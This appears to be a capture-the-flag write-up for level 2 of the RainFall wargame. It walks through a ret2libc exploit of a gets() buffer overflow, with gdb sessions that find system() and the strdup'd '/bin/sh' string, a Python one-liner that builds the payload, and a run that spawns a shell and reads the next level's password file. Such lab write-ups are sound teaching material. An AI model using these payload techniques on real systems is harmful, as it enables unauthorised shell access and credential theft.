


**LEVEL 2**

we can see again a call to gets(). Just after, we see a if statement checking if unaff_retaddr start with '0xb'. So we will avoid this situation.



unlike the last level we don't have a clear call to system() to exploit. but the libc is linked and system() is still reachable:

```gdb
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) start
Temporary breakpoint 2 at 0x8048542
Starting program: /home/user/level2/level2 

Breakpoint 1, 0x08048542 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

so we will have to call system() with '/bin/sh' as argument. The [ret2libc exploit](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc) allows us to do so. 



we will need a return adress. We can use that of the main, '0x0804854b'.

we will also need to build the argument for system(), for that we can use strdup(). Let's continue our exploration through gdb:

```gdb
(gdb) b p
Breakpoint 3 at 0x80484da
(gdb) c
Continuing.

Breakpoint 3, 0x080484da in p ()
(gdb) disass
    [...]
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.
(gdb) b *0x0804853d
Breakpoint 4 at 0x804853d
(gdb) c
Continuing.
/bin/sh
/bin/sh

Breakpoint 4, 0x0804853d in p ()
(gdb) p (char*) $eax
$2 = 0x804a008 "/bin/sh"
```

we disassembly p in order to find the instruction just after the call to strdup(), reach it and then print eax which is located to '0x804a008'.

now all we need to do is build the payload. First we will insert the argument for system() '/bin/sh\x00'. It have to be null-terminated in order to get only what we want from strdup(). Then we fill the buffer which is of size 76 and overflow it of 4 bytes, so 80 minus 8 gives us 72. Next we specify the main return address and finally we call system(), specifying first a return address and its argument, the return value of strdup(). This python line do it:

```bash
python -c 'print "/bin/sh\x00" + 72*"a" + "\x4b\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\x4b\x85\x04\x08" + "\x08\xa0\x04\x08"' > /tmp/payload2
```


then as in the last level we need to fill gets() with our payload and keep access to stdin:

```bash
level2@RainFall:~$ (cat /tmp/payload2; cat) | ./level2
/bin/sh
whoami
level3
cat /home/user/level3/.pass
[pass]
```
